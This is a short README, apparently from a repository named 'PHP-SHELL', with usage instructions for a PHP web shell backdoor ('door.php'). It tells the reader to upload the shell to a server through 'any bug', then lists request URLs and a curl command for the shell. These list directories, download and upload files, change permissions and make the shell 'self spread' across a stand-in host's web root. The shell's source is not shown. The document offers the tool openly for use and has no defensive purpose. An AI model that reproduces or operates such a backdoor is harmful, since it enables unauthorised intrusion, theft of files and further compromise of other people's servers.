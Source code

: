 # PHP-SHELL

HOW TO USE

upload this shell to server by using any bug 

https://test.co/bd/door.php?action=make_folder&destination=/home/test/public_html/bd&folder_name=test    to make folder_name
https://test.co/bd/door.php?destination=/home/test/public_html&action=scan_dir   to list directory
test.co/bd/door.php?action=download&download=/home/test/public_html/20715_errorlog.php  to download file
curl -i -X POST -H "Content-Type: multipart/form-data" -F "file=@style.css" -F "location=/home/test/public_html/test" http://test.co/bd/door.php?action=upload   to push file

http://test.co/bd/door.php?action=chmod&destination=/home/test/public_html/test to change permission

http://test.co/bd/door.php?action=spread&destination=/home/test/public_html/bd   to self spread

